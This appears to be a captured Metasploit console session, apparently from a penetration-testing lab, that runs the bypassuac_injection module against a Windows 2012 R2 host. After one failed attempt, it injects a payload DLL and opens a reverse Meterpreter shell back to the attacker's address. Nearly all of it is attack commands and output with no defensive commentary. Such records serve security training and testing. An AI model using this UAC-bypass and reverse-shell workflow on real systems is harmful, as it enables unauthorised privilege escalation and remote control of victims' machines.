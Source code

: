 ```
msf6 exploit(windows/local/bypassuac_injection) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/bypassuac_injection) > set LPORT 4433
LPORT => 4433

```

```
msf6 exploit(windows/local/bypassuac_injection) > run

[*] Started reverse TCP handler on 10.10.16.4:4433 
[+] Windows 2012 R2 (6.3 Build 9600). may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[-] Exploit aborted due to failure: bad-config: x86 Target Selected for x64 System
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/bypassuac_injection) > set TARGET 
set TARGET 0             set TARGET 1             set TARGET Windows\ x64  set TARGET Windows\ x86  
msf6 exploit(windows/local/bypassuac_injection) > set TARGET Windows\ x64
TARGET => Windows x64
msf6 exploit(windows/local/bypassuac_injection) > run

[*] Started reverse TCP handler on 10.10.16.4:4433 
[+] Windows 2012 R2 (6.3 Build 9600). may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Uploading the Payload DLL to the filesystem...
[*] Spawning process with Windows Publisher Certificate, to inject into...
[+] Successfully injected payload in to process: 2540
[*] Sending stage (200262 bytes) to 10.0.22.98
[*] Meterpreter session 2 opened (10.10.16.4:4433 -> 10.0.22.98:49318) at 2023-02-15 08:53:20 +0530

meterpreter > 

```

```
meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/bypassuac_injection) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x64/windows  VICTIM\admin @ VICTIM  10.10.16.4:4444 -> 10.0.22.98:49244 (10.0.22.98)
```